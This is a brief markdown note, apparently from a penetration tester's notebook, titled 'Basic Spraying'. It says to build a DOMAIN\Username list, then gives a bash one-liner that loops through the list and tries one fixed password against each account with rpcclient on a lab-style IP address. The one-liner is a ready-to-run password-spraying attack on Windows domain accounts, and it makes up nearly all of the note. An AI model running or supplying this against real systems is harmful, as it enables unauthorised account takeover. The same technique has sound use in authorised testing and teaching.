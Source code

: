```yaml
---
category: Uncategorized
tags: []
---
```

Basic Spraying

Create a username list formatted like the following:

DOMAIN\\Username

~~~bash
cat usernames.txt | while read line; do echo $line && rpcclient -U “$line%P@ssw0rd12” -c “getusername;quit” 10.10.10.100; done
~~~

